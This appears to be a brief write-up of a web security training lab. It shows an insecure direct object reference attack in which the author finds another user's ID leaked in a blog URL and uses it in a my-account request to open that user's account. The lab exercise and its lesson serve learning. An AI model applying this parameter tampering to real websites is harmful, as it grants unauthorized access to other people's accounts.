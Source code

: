 #recon
- my account details wiener:peter
## my-account
- my-account?id=50eff991-4f77-4175-9d06-14b535c86390


## view post 
- /post?postId=9
    ### when we request for a user who posted the blog [the user is carlos]
    - /blogs?userId=c2a57ec3-2ad1-43f4-b438-b33301829c85 

## post a comment


- we have carlos id - c2a57ec3-2ad1-43f4-b438-b33301829c85 

- Let's try accessing his account using my-account request...

use this request:
GET my-account?id=c2a57ec3-2ad1-43f4-b438-b33301829c85 


BOOM: WE HAVE ACCESS TO CARLOS ACCOUNT...

LESSON: always try looking for leaked user's id in request parameters...